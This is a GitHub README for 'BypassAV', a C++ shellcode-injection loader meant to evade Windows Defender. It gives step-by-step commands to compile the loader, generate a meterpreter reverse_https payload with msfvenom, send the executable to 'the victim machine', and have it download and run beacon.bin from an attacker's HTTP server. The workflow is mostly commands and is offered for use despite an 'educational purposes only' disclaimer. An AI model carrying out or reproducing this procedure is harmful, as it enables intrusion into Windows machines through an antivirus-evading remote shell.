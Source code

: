<h1 align="center">💀Evade Windows AV💀</h1>

<br>

>This repository focuses on storing a memory injection code written in c++ in order to evade windows defender, also using a metasploit payload.
>

>
>Obs: These scripts are for educational purposes only. Use them at your own risk because I will not be responsible for your actions!

>Works on Parrot OS and Kali Linux!
>

<br>

<p align="center">
	<img width="400" height="400" src="https://github.com/EndlssNightmare/BypassAV/blob/main/Fotos/metasploit-ascii-1-2.png">
</p>

<br>

<body>
   <h2 align="left"> Dependences:</h2>

<br>

  >
  >Create a SSL/TLS Certificate:<a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> SSL Certificate</a>
  >

  >
  >C/C++ Compiler:<a href="https://www.mingw-w64.org" > Mingw32</a>
  >

  >
  >Metasploit Framework:<a href="https://www.metasploit.com"> Metasploit Framework</a>>
  >
<br>

  <h2 align="left"> How to run the script:</h2>

<br>

Upgrade your apt package: `sudo apt update && sudo apt upgrade`

<br>

Install the C/C++ compiler: `apt-get install g++-mingw-w64-x86-64`

<br>

Compile the code: `x86_x64-w64-mingw32-g++ --static -o name.exe BypassAV.cpp -fpermissive -lsw2_32`

<br>

Create a SSL/TLS Certificate: 

<br>

```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

<br>

Create your own Metasploit configured payload: `msfvenom -p windows/x64/meterpreter/reverse_https lhost=yourip lport=port HandlerSSLCert=/home/kali/www.example.com.pem StagerVerifySSLCert=true -f raw -o beacon.bin`

<br>

Send the executable file to the victim machine.

<br>

Set a listener on msfconsole: `msfconsole -r meta.rc`

<br>

Set a http listener to grab de beacon.bin with the executable on victim machine: `python -m http.server 8000`

<br>

On the executable, set your ip, the port of http server and the beacon.bin file: `./BypassAV.exe YOURIP HTTPPORT beacon.bin`

<br>

## References and Credits:
  
  <br>

  ><a href="https://github.com/TheD1rkMtr/Shellcode-Hide"> Repository reference.</a>
  >
  ><a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> Custom SSL/TSL Certificate.</a>
  >
  ><a href="https://www.youtube.com/@gemini_security"> Gemini Security</a>

  <br>
